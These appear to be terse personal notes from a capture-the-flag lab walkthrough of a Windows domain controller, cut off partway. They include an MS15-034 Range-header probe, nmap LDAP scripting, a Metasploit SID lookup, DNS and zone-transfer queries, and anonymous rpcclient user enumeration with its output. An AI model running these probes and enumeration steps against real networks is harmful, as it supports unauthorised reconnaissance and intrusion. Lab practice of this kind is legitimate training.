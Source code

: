 HTTPAPI httpd 2.0 looks sussy.
yep.

https://www.sikich.com/insight/ms15-034-critical-windows-vulnerability-need-know-now/

curl -v 10.10.10.161 -H "Range: bytes=00-18446744073709551615"

nothing good. no vuln.

time to try ldap
nmap -sT -Pn -n --open 10.10.10.161 -p389 --script ldap-rootdse

dnsHostName: FOREST.htb.local

msf6 > use scanner/smb/smb_lookupsid
set RHOSTS 10.10.10.161

no luck, lets DNS enumerate

dig srv _ldap._tcp.dc._msdcs.forest.htb.local @10.10.10.161

; <<>> DiG 9.18.1-1-Debian <<>> srv _ldap._tcp.dc._msdcs.forest.htb.local @10.10.10.161
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 30962
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
; COOKIE: c6b2e53f11ba33f4 (echoed)
;; QUESTION SECTION:
;_ldap._tcp.dc._msdcs.forest.htb.local. IN SRV

;; AUTHORITY SECTION:
htb.local.              3600    IN      SOA     forest.htb.local. hostmaster.htb.local. 106 900 600 86400 3600

;; Query time: 276 msec
;; SERVER: 10.10.10.161#53(10.10.10.161) (UDP)
;; WHEN: Wed Aug 03 07:22:14 EDT 2022
;; MSG SIZE  rcvd: 141

dig axfr forest.htb @10.10.10.161

added to hosts, no luck.

found that i need -N in my rpcclient payload
rpcclient -U "" -N 10.10.10.161

enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]